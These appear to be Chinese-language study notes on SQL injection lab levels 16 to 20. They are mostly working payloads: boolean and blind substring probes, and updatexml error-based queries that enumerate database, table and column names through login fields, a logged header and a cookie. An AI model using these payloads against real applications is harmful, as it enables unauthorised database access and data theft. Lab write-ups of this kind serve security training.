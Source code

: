 # 16
- 1") or 1=1 #   (√)（说明")是突破）
- 1') or 1=1 #
- 1" or 1=1 #  
- 1' or 1=1 #

- ") or (length(database())=8) -- a
- ") or (ascii(substr(database(),1,1)))=115 -- a
- ") or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101 -- a
- ") and (ascii (substr ((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)))=105-- qwe


# 17
- 1") or 1=1 #   
- 1') or 1=1 #
- 1" or 1=1 #  
- 1' or 1=1 #      (发现都不行，再看提醒，‘密码重置’，所以可能要从密码入手)

- admin\1' or 1=1 # 
![alt text](image.png)

（不知道为什么有的前面需要加数字）
- 判断库名：'and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- qwe
- 判断表名：111'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1)-- qwe
- 判断列名：111'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1)-- qwe
- 判断数据：111'and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)-- qwe
![alt text](image-1.png)
![alt text](image-2.png)


# 18【给IP？有点懵逼】
既然获取了ip，有没有可能获取一些其他信息
![alt text](image-3.png)
![alt text](image-4.png)

- 抓包后，将这个信息修改成注入语句【注意，和之前的语句不太一样】（后面两个1和括号用于补齐字段）
- 必须要登陆成功才会记录ip
- 'and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1),1,1)-- qwe
- 'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1),1,1)-- qwe
- 'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1),1,1)-- qwe
- 'and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1),1,1)-- qwe


# 19
先登录

和18一样，只是注入点不同

# 20
登录
这次是cookie传参
- 'and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- qwe






























